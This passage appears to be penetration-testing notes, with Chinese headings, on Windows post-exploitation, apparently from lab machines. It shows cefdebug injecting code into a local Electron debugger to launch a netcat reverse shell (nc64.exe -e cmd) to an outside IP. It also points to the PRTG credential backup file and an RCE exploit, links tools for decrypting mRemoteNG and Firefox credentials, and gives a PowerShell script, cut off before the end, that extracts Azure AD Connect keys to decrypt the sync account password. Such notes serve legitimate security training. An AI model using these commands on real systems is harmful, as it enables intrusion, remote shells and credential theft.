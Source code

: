 ```powershell
*Evil-WinRM* PS C:\Users\alcibiades\desktop> .\cefdebug.exe --url ws://127.0.0.1:34421/81806651-e223-468d-9818-fa524c9f5868 --code "process.version"

[2024/03/06 18:39:44:1914] U: <<< v10.11.0
```

```powershell
*Evil-WinRM* PS C:\Users\alcibiades\desktop> .\cefdebug.exe --url ws://127.0.0.1:34421/81806651-e223-468d-9818-fa524c9f5868 --code "process.mainModule.require('child_process').exec('C:\\programdata\\nc64.exe -e cmd 10.10.14.29 2233')"
cefdebug.exe : [2024/03/06 18:40:09:1097] U: >>> process.mainModule.require('child_process').exec('C:\\programdata\\nc64.exe -e cmd 10.10.14.29 2233')
    + CategoryInfo          : NotSpecified: ([2024/03/06 18:...10.14.29 2233'):String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2024/03/06 18:40:09:1097] U: <<< ChildProcess
```

##### PRTG Network Monitor
凭据文件 ：`\ProgramData\Paessler\PRTG Network Monitor\PRTG Configuration.old.bak` 
远程 RCE EXP： https://github.com/A1vinSmith/CVE-2018-9276

##### mRemoteNG 凭据泄露，解密
https://vk9-sec.com/exploiting-mremoteng/

##### Mozilla Firefox 凭据泄露，解密
https://github.com/lclevy/firepwd
![](photos/Pasted%20image%2020240202143452.png)
![](photos/Pasted%20image%2020240202143625.png)

##### Azure AD Service 转储密码
(xxx.ps1)
```
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
```
